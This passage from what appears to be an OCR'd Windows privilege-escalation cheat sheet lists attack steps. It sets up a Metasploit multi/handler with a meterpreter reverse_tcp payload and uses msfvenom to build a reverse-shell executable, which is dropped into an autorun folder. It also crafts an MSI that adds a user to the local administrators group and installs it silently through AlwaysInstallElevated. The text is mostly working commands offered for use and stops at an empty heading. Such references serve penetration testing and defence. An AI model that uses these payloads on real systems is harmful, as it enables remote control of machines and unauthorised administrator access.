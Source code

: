 Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

In Metasploit (msf \> prompt) type: use multi/handler

In Metasploit (msf \> prompt) type: set payload
windows/meterpreter/reverse_tcp

In Metasploit (msf \> prompt) type: set lhost \[Kali VM IP Address\]

In Metasploit (msf \> prompt) type: run

Open an additional command prompt and type:

msfvenom -p windows/meterpreter/reverse_tcp lhost=\[Kali VM IP Address\]
-f exe -o

program.exe

2\.

Place program.exe in 'C:\\Program Files\\Autorun Program'.

<a name="abusing-services-via-alwaysinstallelevated"></a>
# Abusing Services via AlwaysInstallElevated

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

msfvenom -p windows/exec CMD=\'net localgroup

administrators user /add\' -f msi-nouac -o setup.msi

2\.

msiexec /quiet /qn /i C:\\Temp\\setup.msi

Or

SharpUp.exe AlwaysInstallElevated

<a name="abusing-services-via-secreatetoken"></a>
# Abusing Services via SeCreateToken
